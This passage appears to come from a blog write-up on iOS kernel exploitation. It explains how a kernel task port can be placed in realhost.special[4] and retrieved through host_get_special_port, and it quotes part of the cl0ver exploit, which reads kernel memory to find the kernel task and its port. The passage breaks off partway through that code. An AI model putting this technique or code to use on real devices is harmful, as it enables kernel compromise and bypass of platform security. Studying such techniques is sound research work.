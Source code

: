     1221:  *      the caller; thus, using a special port can always result
    1222:  *      in a "port not valid" error.
    1223:  */
    1224: 
    1225: kern_return_t
    1226: host_get_special_port(host_priv_t host_priv, __unused int node, int id, ipc_port_t * portp)
    1227: {
    1228: 	ipc_port_t port;
    1229: 
    1230: 	if (host_priv == HOST_PRIV_NULL || id == HOST_SECURITY_PORT || id > HOST_MAX_SPECIAL_PORT || id < 0)
    1231: 		return (KERN_INVALID_ARGUMENT);
    1232: 
    1233: 	host_lock(host_priv);
    1234: 	port = realhost.special[id];
    1235: 	*portp = ipc_port_copy_send(port);
    1236: 	host_unlock(host_priv);
    1237: 
    1238: 	return (KERN_SUCCESS);
    1239: }
    1240: 
{% endhighlight %}
Looking at the function, we can see that it requires the **host_priv** port as a parameter, and hence executing this call requires root permissions, in addition to all the sandbox checks. The **host_get_special_port** function essentially gets the port value from **realhost.special[node]** and returns it back to the caller.

Coming back to the pointer check, if we can do a remap on the kernel task, write it to the unused port space, which is **realhost.special[4]**, and then call **host_get_special_port(4)**, this should give us a remapped and working kernel task.

The following code snippet from **cl0ver** written by [Siguza](https://twitter.com/Siguza) does exactly that

.{% highlight c %}

    bool patch_host_special_port_4(task_t kernel_task)
    {
        DEBUG("Installing host_special_port(4) patch...");

        addr_t *special = (addr_t*)offsets.slid.data_realhost_special;
        vm_address_t kernel_task_addr,
                     kernel_self_port_addr,
                     old_port_addr;
        vm_size_t size;
        kern_return_t ret;

        // Get address of kernel task
        size = sizeof(kernel_task_addr);
        ret = vm_read_overwrite(kernel_task, (vm_address_t)offsets.slid.data_kernel_task, sizeof(kernel_task_addr), (vm_address_t)&kernel_task_addr, &size);
        if(ret != KERN_SUCCESS)
        {
            THROW("Failed to get kernel task address: %s", mach_error_string(ret));
        }
        DEBUG("Kernel task address: " ADDR, (addr_t)kernel_task_addr);

        // Get address of kernel task/self port
        size = sizeof(kernel_self_port_addr);
        ret = vm_read_overwrite(kernel_task, kernel_task_addr + offsets.unslid.off_task_itk_self, sizeof(kernel_self_port_addr), (vm_address_t)&kernel_self_port_addr, &size);
        if(ret != KERN_SUCCESS)
        {
            THROW("Failed to get kernel task port address: %s", mach_error_string(ret));
        }
        DEBUG("Kernel task port address: " ADDR, (addr_t)kernel_self_port_addr);
